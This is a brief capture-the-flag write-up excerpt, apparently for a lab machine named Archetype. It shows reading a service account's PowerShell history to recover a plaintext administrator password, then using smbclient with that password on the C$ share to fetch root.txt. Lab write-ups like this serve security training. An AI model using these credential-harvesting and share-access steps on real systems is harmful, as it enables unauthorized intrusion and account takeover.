### Shell
- Commands
	```
	$ cat C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
	
	net.exe use T: \\Archetype\backups /user:administrator MEGACORP_4dm1n!!
	exit
	```

	```
	$ smbclient -U administrator -W ARCHETYPE \\\\10.10.10.27\\C$
	$ cd C:\Users\Administrator\Desktop
	$ get root.txt
	```

- Administrator credentials found in PowerShell command history
	- User: `administrator`
	- Pass: `MEGACORP_4dm1n!!`
